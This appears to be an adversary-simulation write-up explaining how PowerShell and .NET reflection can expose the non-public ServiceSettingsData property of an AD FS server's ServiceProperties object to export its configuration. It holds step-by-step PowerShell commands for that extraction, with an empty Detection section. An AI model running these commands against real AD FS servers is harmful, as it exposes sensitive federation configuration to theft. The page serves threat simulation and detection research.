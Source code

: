 # Export AD FS Configuration via .NET Reflection

By default, AD FS servers come with a [PowerShell module](https://docs.microsoft.com/en-us/powershell/module/adfs/?view=windowsserver2022-ps) to administer Active Directory Federation Services (AD FS). This PS module has a PowerShell Cmdlet [Get-AdfsProperties](https://docs.microsoft.com/en-us/powershell/module/adfs/get-adfsproperties?view=windowsserver2022-ps) that allows authorized users to get publicly accessible information such as properties associated with the AD FS service.

The [Get-AdfsProperties](https://docs.microsoft.com/en-us/powershell/module/adfs/get-adfsproperties?view=windowsserver2022-ps) PS cmdlet returns a [Type object](https://docs.microsoft.com/en-us/dotnet/api/system.type?view=net-6.0) that represents the [ServiceProperties](https://docs.microsoft.com/en-us/dotnet/api/microsoft.identityserver.management.resources.serviceproperties?view=adfs-2019) .NET class.

A threat actor could use .NET reflection to access non-public metadata of the [ServiceProperties](https://docs.microsoft.com/en-us/dotnet/api/microsoft.identityserver.management.resources.serviceproperties?view=adfs-2019) .NET class to get to sensitive information such as the AD FS configuration.

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
    * Identity:
        * AD FS Service Account
        * Local Administrator
* AD FS Server
    * Services:
        * Active Directory Federation Services (ADFSSRV)

## Simulation Steps

### Get AD FS Service Public Properties

On the AD FS Server, open a PowerShell console and use the [Get-AdfsProperties](https://docs.microsoft.com/en-us/powershell/module/adfs/get-adfsproperties?view=windowsserver2022-ps) PS cmdlet.

```PowerShell
$ServiceProperties = Get-ADFSProperties
$ServiceProperties
```

### Access Object Members

We can access members (properties, methods, fields, events, and so on) of the current `Type` class with the PowerShell Cmdlet [Get-Member](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-member?view=powershell-7.2).

```PowerShell
$ServiceProperties | Get-Member
```

### Access Non-Public Properties

A threat actor could use [System.Reflection.BindingFlags enums](https://docs.microsoft.com/en-us/dotnet/api/system.reflection.bindingflags?view=net-6.0) to control binding and the way in which the search for members and types is conducted by reflection. One could use the following BindingFlags to search for non-public / private members:

```
[System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic
```

Run the following commands to get non-public properties

```PowerShell
$ServiceProperties.GetType().GetProperties([System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic) | Select-Object Name
```

### Access ServiceSettingsData Non-Public Property

Export the non-public property `ServiceSettingsData` with the following commands:

```PowerShell
$ServiceSettingsDataProperty  = $ServiceProperties.GetType().GetProperty("ServiceSettingsData", [System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic)
$ServiceSettingsDataPropertyValue = $ServiceSettingsDataProperty.GetValue($ServiceProperties, $null)
$ServiceSettingsDataPropertyValue
```

## Detection

## Output

* AD FS Configuration Settings


## References

* https://github.com/Microsoft/adfsToolbox/blob/master/serviceAccountModule/Tests/Test.ServiceAccount.ps1#L199-L208
* https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal
* https://redcanary.com/blog/amsi/